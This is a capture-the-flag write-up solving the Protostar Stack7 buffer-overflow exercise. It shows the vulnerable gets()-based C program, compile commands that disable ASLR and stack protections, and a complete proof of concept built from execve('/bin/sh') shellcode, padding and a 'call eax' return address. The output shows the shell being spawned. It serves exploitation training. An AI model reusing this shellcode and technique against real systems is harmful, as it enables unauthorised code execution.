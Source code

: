 ## Protostar-Stack7 Solution

### 1. Introduction

This is a poc solution for the "Stack7" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419082500/https://exploit-exercises.com/protostar/stack7/](https://web.archive.org/web/20170419082500/https://exploit-exercises.com/protostar/stack7/) 

**Hints:**
* Stack6 introduces return to .text to gain code execution.
* The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.


#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o stack7 stack7.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb

This one is similar to stack5 since we're able to write our payload onto eax register.

#### 2.2 Quick Solution

Let's use same payload from stack 5, exploit.bin by increasing the offset by 3.

```
$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 0080

$ python2 -c 'import sys; sys.stdout.write("A"*57)' >> exploit.bin

$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 4141 4141
```

Let's find a **call eax** instruction from stack7 binary.

```nasm
$ objdump -d stack7 -M intel | grep "call" | grep "eax"
 8048466:	ff d0                	call   eax
 80484ef:	ff d0                	call   eax
```


Let's choose the address **8048466** in our exploit.

```x86asm
$ echo -ne "\x66\x84\x04\x08" >> exploit.bin
```

Final exploit.

```x86asm
$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 4141 4141
0000050 8466 0804 
```

Following outputs is from another vm which has peda installed.

```nasm
gdb-peda$ r < exploit.bin
Starting program: stack7 < exploit.bin
input path please: got path 1�Phn/shh//bi��1�1Ұ
...TRIM...
[----------------------------------registers-----------------------------------]
EAX: 0x804b008 --> 0x6850c031 
EIP: 0x804b008 --> 0x6850c031
...TRIM...               
-------------------------------------code-------------------------------------                  0x804b001:	add    BYTE PTR [eax],al
   0x804b003:	add    BYTE PTR [ecx+0x0],ah
   0x804b006:	add    BYTE PTR [eax],al
=> 0x804b008:	xor    eax,eax  <== Our shellcode
   0x804b00a:	push   eax
   0x804b00b:	push   0x68732f6e
   0x804b010:	push   0x69622f2f
   0x804b015:	mov    ebx,esp            
...TRIM...                                              
gdb-peda$ x/21wx $eax
0x804b008:	0x6850c031	    0x68732f6e	0x622f2f68	0x31e38969
0x804b018:	0xb0d231c9	    0x4180cd0b	0x41414141	0x41414141
0x804b028:	0x41414141	    0x41414141	0x41414141	0x41414141
0x804b038:	0x41414141	    0x41414141	0x41414141	0x41414141
0x804b048:	=>0x08048466<=	0x41414141	0x41414141	0x41414141
0x804b058:	0x08048466
```
There is something wrong with data that I write on **eax** on debugger but it worked on another VM which doesn't have gdb-peda. 

Final poc works properly as well.

#### 2.3 Final PoC

```py
$ python2 -c 'import sys; sys.stdout.write("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A"*57 + "\x66\x84\x04\x08")' > x.bin

$ (cat x.bin; cat) | ./stack7
input path please: X
got path 1�Phn/shh//bi��1�1Ұ
                            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAf�AAAAAAAAAAAAf�X
id
uid=1000(a) gid=1000(a) groups=1000(a),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```
